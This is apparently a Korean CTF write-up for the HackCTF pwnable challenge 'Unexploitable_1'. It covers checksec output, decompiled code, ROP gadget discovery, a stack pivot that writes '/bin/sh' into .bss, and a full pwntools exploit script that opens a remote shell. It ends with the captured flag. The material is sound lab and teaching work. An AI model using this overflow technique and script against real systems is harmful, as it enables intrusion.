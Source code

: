 # Unexploitable

---

우선 보호기법은 다음과 같다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

shellcode를 통하지 않는듯 하다.

`main()`코드를 살펴보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
```

RTL문제인듯 하다.

또 다음과 같은 함수가 있다.
```c
int gift()
{
  return system("use this system gadget :D");
}
```
system 함수를 사용할 수 있도록 system@plt를 주었다.

다음과 같이 익스할 것이다.

[pop rdi ret] gadget과 "/bin/sh"의 위치를 구해서 rdi에 "/bin/sh"를 넣은 다음 system@plt로 ret시키면 된다. 하지만 이를 위해서는 "/bin/sh"의 위치를 구해야 하는데 이 위치를 구하기 위해서는 libc base주소가 필요하다. 때문에 `fwrite()`를 이용해서 system의 got를, 즉 system함수의 주소를 출력하여 libc base를 구한뒤 /bin/sh의 주소를 구하여 `system()`로 ret시킬 것이다.

이를 위해서 필요한 정보는 다음과 같다.

**pop\_rdi\_ret <br>
pop\_rsi\_ret <br>
pop\_rdx\_ret <br>
pop\_rcx\_ret <br>
fwrite\_plt <br>
system\_plt <br>
system\_got <br>
system\_offset <br>
binsh\_offset**

하지만 pop\_rdx\_ret과 pop\_rcx\_ret을 구현할 코드가 존재하지 않는다.

`fwrite()`이외에 출력할 수 있는 함수가 존재하지 않기 때문에 libc_base를 lick할 수 없다. 때문에 이 프로세스에서 사용되지 않은 다른 함수를 사용할 수 없으며, 기존에 있던 "/bin/sh" 문자열 또한 사용할 수 없다.

때문에 "/bin/sh"문자열을 새로 써야한다. stack에 쓰려고 하였더니 stack의 주소를 rdi로 넘길 방법이 없다. "mov rdi, rbp"와 같은 gadget을 구현할 방법이 없다. 때문에 `fgets()`를 이용해야한다.

```gdb
gdb-peda$ pd main
Dump of assembler code for function main:
...
   0x000000000040074d <+113>:	mov    rdx,QWORD PTR [rip+0x20091c]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x0000000000400754 <+120>:	lea    rax,[rbp-0x10]
   0x0000000000400758 <+124>:	mov    esi,0x40
   0x000000000040075d <+129>:	mov    rdi,rax
   0x0000000000400760 <+132>:	call   0x400580 <fgets@plt>
   0x0000000000400765 <+137>:	mov    eax,0x0
   0x000000000040076a <+142>:	leave  
   0x000000000040076b <+143>:	ret    
End of assembler dump.
```

`main()`의 다음 부분을 보면 rbp의 값을 조작할 수 있다면 원하는 장소에 문자열을 쓸 수 있다. 고정주소인 bss영역에 "/bin/sh"를 쓸 것이며 그러기 위해서는 "pop rbp; ret" gadget이 필요하다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ ROPgadget --binary Unexploitable_1 | grep "pop"
...
0x0000000000400630 : pop rbp ; ret
...
```

다행히 gadget이 존재한다.

따라서 다음과 같이 익스할 것이다. pop rbp; ret gadget을 통해서 rbp에 bss주소+0x10을 저장하고 `main()+113`으로 ret시킬 것이다. 이후 bss영역에 "/bin/sh"를 쓴 다음, pop rdi; ret gadget을 통해서 rdi에 bss주소를 넣고, gift로 ret시킬 것이다.

이를 위한 정보는 다음과 같다.

**pop\_rbp\_ret <br>
pop\_rdi\_ret <br>
main_113 <br>
bss <br>
system@plt**

위에서 pop\_rbp\_ret의 주소는 구했다.

**pop\_rbp\_ret=0x400630**

```gdb
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x004007d3 : (b'5fc3')	pop rdi; ret
```

**pop\_rdi\_ret=0x4007d3**

위에서 `main()+113`의 주소는 구했다.

**main_113=0x40074d**

```bashsjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ objdump -h Unexploitable_1 | grep "bss"
 25 .bss          00000020  0000000000601060  0000000000601060  00001058  2**4
```

**bss=0x601060**

```gdb
gdb-peda$ pd gift
Dump of assembler code for function gift:
   0x00000000004006c6 <+0>:	push   rbp
   0x00000000004006c7 <+1>:	mov    rbp,rsp
   0x00000000004006ca <+4>:	mov    edi,0x4007f8
   0x00000000004006cf <+9>:	mov    eax,0x0
   0x00000000004006d4 <+14>:	call   0x400560 <system@plt>
   0x00000000004006d9 <+19>:	nop
   0x00000000004006da <+20>:	pop    rbp
   0x00000000004006db <+21>:	ret    
End of assembler dump.
```

**gift=0x4006d4**

다음과 같은 익스코드를 통해서 익스할 수 있었다.

```python
from pwn import*
#p=process('./Unexploitable_1')
p=remote('ctf.j0n9hyun.xyz', 3023)

p.recvline()

pop_rbp_ret=0x400630
pop_rdi_ret=0x4007d3
main_113=0x40074d
gift=0x4006d4
bss=0x601060+0x900

payload='A'*24
payload+=p64(pop_rbp_ret)
payload+=p64(bss+0x10)
payload+=p64(main_113)
p.sendline(payload)


payload2='/bin/sh\x00'
payload2+='\x00'*8
payload2+='A'*8
payload2+=p64(pop_rdi_ret)
payload2+=p64(bss)
payload2+=p64(gift)
p.sendline(payload2)

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3023: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{dyn5tr_tr1ck_^_^}

```

**flag: HackCTF{dyn5tr_tr1ck_^_^}**

[?] system@plt로 ret시키면 안되고 gift로 ret시켜야 하는 이유?
